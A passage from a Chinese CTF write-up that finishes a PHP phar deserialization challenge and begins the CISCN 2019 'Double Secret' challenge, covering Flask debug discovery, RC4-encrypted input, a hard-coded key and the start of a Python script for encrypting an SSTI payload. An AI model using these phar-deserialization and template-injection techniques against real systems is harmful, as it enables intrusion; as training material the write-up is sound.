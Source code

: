 ```php
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();

```

改后缀上传，delect用phar协议触发反序列化

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220608172250.png)

拿到flag

## [CISCN 2019华东南]Double Secret

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610132912.png)

什么都没有我们扫下目录

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610133125.png)

robots.txt没什么用

再看看

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610133657.png)

有console目录应该是flask框架，flask框架我们可以从dubug模式入手

但是首先要让他报错

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610134635.png)

在secret路由可以传参数，看看能不能让他报错

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610142000.png)

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610142255.png)

是ascii码的报错，我们来看看源码

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610142432.png)

做了个rc4加密，之后进行了模板渲染，看到模板渲染我们就想到ssti

我们先来看看rc4加密

key是HereIsTreasure

我们找个脚本把我们的payload加密

```python
import base64
from urllib.parse import quote
def rc4_main(key = "HereIsTreasure", message = "ciscn"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
```